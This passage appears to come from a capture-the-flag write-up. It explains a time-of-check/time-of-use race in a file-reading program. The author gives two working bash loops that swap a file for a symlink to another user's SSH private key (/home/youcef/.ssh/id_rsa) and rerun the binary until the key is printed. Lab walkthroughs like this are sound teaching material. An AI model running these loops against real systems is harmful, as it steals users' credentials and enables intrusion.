 ```bash
        } while (bytes_written > 0);
        
        return 0;
    }
    
    puts("Nice try!");
    return 1;
}
```

Summary of the code:

- Requires **exactly one argument** (the filename).
- Verifies the file exists.
- Verifies the program is run by user with UID `1002` (e.g., user `john`).
- Denies access to files whose name includes **"flag"** or **"id_rsa"**.
- Denies **symbolic links**.
- Denies unreadable files.
- If all checks pass, it prints the contents of the file.

The issue here is that there is a delay between the `Time of Check` and `Time of Use` due to `usleep`, which creates a race condition vulnerability.

To exploit this race condition vulnerability, we can create a file and constantly switch it between a regular file and a symlink pointing to the file we want to read as `youcef`. This way, we are hoping for that while the application performs the checks, it will see a regular file and we will pass the checks. However, when it comes time to open and read, it will be a `symlink` pointing to the file we actually want to read.

For this, we will first use a loop to constantly switch the file between these two states and run it in the background.

```bash
while true; do 
    touch file;                         # 1. Create a legit regular file named "file"
    sleep 0.3;                          # 2. Wait a bit (likely for the program to pass lstat check)
    ln -sf /home/youcef/.ssh/id_rsa file; # 3. Replace it with a symlink to a sensitive file
    sleep 0.3;                          # 4. Wait for open() call to happen
    rm file;                            # 5. Clean up to retry
done &

```

Now, we will create another loop that continuously runs the program, hoping to win the race condition. If we succeed, it will print the output and exit.

```bash
while true; do
    out=$(/home/youcef/readfile file | grep -Ev 'Found|guess' | grep .)
    if [[ -n "$out" ]]; then
        echo -e "$out"
        break
    fi
done
```
